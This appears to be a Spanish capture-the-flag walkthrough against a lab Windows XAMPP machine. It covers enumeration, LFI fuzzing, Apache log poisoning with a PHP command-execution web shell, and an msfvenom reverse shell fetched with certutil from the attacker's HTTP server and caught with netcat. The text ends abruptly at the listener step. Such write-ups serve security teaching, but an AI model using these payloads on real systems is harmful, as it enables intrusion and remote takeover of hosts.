## COMPROBAMOS IP DE LA MAQUINA VICTIMA

ejecutamos:
```bash
sudo arp-scan -l | grep "PCS"
```
y la IP victima es `192.168.1.46`


## SCAN DE PUERTOS Y SERVICIOS

Ejecutamos un scan de puertos abiertos y vemos los servicios y versiones que corren por ellos:

```bash
sudo nmap -sS -sCV --open -p- --min-rate 5000 192.168.1.46 -vvv -oN nmap
```


## ENUMERACION SMB 445

Enumeración básica:
```bash
netexec smb 192.168.1.46
```
```
SMB         192.168.1.46    445    TECH             [*] Windows 10 / Server 2019 Build 17763 x64 (name:TECH) (domain:TECH) (signing:False) (SMBv1:None)
```

vemos un windows arquitectura x64 y un dominio `TECH`


Enumeracion de SHERES con null session:
```bash
smbclient -NL //192.168.1.46
smbmap --no-banner -H 192.168.1.46 -u '' -p ''
netexec smb 192.168.1.46 -u '' -p '' --shares
```


RCP:
```bash
rpcclient -NU "" 192.168.1.46 -c "srvinfo"
```


No encontrando nada nos amos a la página web y vemos si encontramos algo.


## ENUMERACION DE LA WEB

Nos encontramos con esta web:


y revisando el código fuente vemos algo interesante:



si abrimos el enlace vemos que el parametro "i" nos refleja esas tres páginas





## FUZZING

lanzo un ataque de fuzzing para ver si podemos leer archivos internos de la máquina:

```bash

 wfuzz -c --hc=404 --hh=0 -w /home/kali/Desktop/maquina/trabajo/diccionarios/rutas_windows_lfi.txt "http://192.168.1.46/page.php?i=FUZZ"
```




el diccionario que utilicé es:

`https://github.com/lavafuego/Diccionarios/blob/main/diccionario_rutas_windows.md`


veo que puedo leer:
```bash
c:\windows\system32\drivers\etc\hosts
c:\xampp\apache\conf\httpd.conf
```

me centro en `c:\xampp\apache\conf\httpd.conf`

```bash
curl -sX GET "http://192.168.1.46/page.php?i=c:\xampp\apache\conf\httpd.conf"
```

leyendo detenidamente veo las siguientes rutas:

```
Define SRVROOT "C:/xampp/apache"
ServerRoot "C:/xampp/apache"
DocumentRoot "C:/xampp/htdocs"
<Directory "C:/xampp/htdocs">
ErrorLog "logs/techro-events/error.log"
CustomLog "logs/techro-events/access.log" combined
ScriptAlias /cgi-bin/ "C:/xampp/cgi-bin/"
```




más o menos con un cgi-bin y un error.log y access.log creo que los tiros van a ir por un log poisoning. pero la ruta como vemos esta customizada, vamos a ver si tenemos acceso a los logs:



tenemos accceso al `access.log`

vamos a lanzar una peticion en la que vemos si refleja lo que pongamos en el user agent:

```bash
curl -A "hola que tal" "http://192.168.1.46/"
```







esto pinta bien, ahora vamos a lanzar un cmd para poder ejecutar comandos:

```bash
curl -A "<?php system(\$_GET['cmd']); ?>" "http://192.168.1.46/"
```
utilizando el cmd lanzamos un whoami y vemos si se refleja

```bash
curl -sX GET "http://192.168.1.46/page.php?i=c:\xampp\apache\logs\techro-events\access.log&cmd=whoami"
```








## OBTENIENDO ACCCESO A LA MAQUINA VICTIMA

Parece que si se ejecutan, ahora nos vamos a nuestra maquina atacante y vamos a crear un archivo para mandarnos una reverse, recordamos que es windows x64:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.47 LPORT=446 -a x64 -f exe -o shell.exe
```




levantamos un servidor con python donde hemos creado el shell.exe:

```bash
python3 -m http.server 80
```



y mediante 
```
certutil -urlcache -f http://192.168.1.47/shell.exe C:\Windows\Temp\shell.exe
```

vamos a alojar el archivo en C:\Windows\Temp\

pero hay que encodearlo:

```
certutil+-urlcache+-f+http%3A%2F%2F192.168.1.47%2Fshell.exe+C%3A%5CWindows%5CTemp%5Cshell.exe
```


comprobamos que se ha subido con:
```bash
dir C:\Windows\Temp
```
pero hay que encodear de nuevo
```bash
dir+C%3A%5CWindows%5CTemp
```







ahora nos ponemos en escucha por e puerto 446:

```bash
rlwrap nc -lvnp 446
```



a
